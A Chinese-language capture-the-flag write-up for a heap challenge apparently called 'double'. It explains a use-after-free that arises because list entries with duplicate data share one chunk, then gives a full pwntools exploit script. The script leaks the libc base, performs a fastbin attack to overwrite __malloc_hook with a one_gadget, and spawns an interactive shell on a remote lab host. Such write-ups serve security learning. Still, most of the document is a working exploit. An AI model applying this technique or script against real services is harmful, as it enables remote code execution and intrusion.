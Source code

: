 

看了恒哥逆的ida，加上自己理解了一些，程序就变得很简洁明了了。

大体是一个单向链表，当加入数据与链表头相同时，会偷懒不新建，直接沿用链表头malloc的数据，但是重新赋予序号。不妨设有这样两个相同，序号分别为AB。这就导致删除序号A后，对B修改可以直接修改堆，也可以再删除，存在uaf

泄露地址就用删除掉的A，打印B即可。

利用fastbin attack可以很快速的getshell。

然后直接把malloc_hook改成one_gadget就可以了。

如果想用realloc_hook怕strncpy截断，就用edit函数里面的memcpy来解决。

```python
from pwn import *

debug = 0
if debug:
	p = process('./double')
else:
	p = remote('e095ff54e419a6e01532dee4ba86fa9c.kr-lab.com',40002)

e = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
context(log_level = 'debug')

def add(msg):
	p.recvuntil('>')
	p.sendline('1')
	p.recvuntil('data:')
	p.send(msg)

def show(idx):
	p.recvuntil('>')
	p.sendline('2')
	p.recvuntil('index: ')
	p.sendline(str(idx))

def edit(idx, msg):
	p.recvuntil('>')
	p.sendline('3')
	p.recvuntil('index:')
	p.sendline(str(idx))
	sleep(0.01)
	p.send(msg)

def delete(idx):
	p.recvuntil('>')
	p.sendline('4')
	p.recvuntil('index:')
	p.sendline(str(idx))

add('a'*0x200+'\n')#0
add('a'*0x200+'\n')#1
delete(0)
show(1)
#p.recvuntil('')
libc_base = u64(p.recv(6).ljust(8, '\x00')) - 0x3c4b78
print hex(libc_base)

one = libc_base + 0x4526a
malloc_hook = libc_base + e.symbols['__malloc_hook']
realloc = libc_base + 0x846C0 

notelen = 0x67

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')

add('b'*notelen+'\n') #2
add('b'*notelen+'\n') #3
add('d'*notelen+'\n') #4
add('c'*notelen+'\n') #5
delete(2)
edit(3, p64(malloc_hook-0x23)+'\x00'+'\n')
print hex(malloc_hook)

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')
add('b'*notelen+'\n') #6
print hex(realloc)
print hex(one)
add(('e'*19+p64(one))+'\x00'*(notelen-11-16)+'\n') #7
#edit(7, 'e'*11+p64(one)+p64(one)+'\x00'*10+'\n')

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')

p.recvuntil('>')
p.sendline('1')

p.interactive()

```

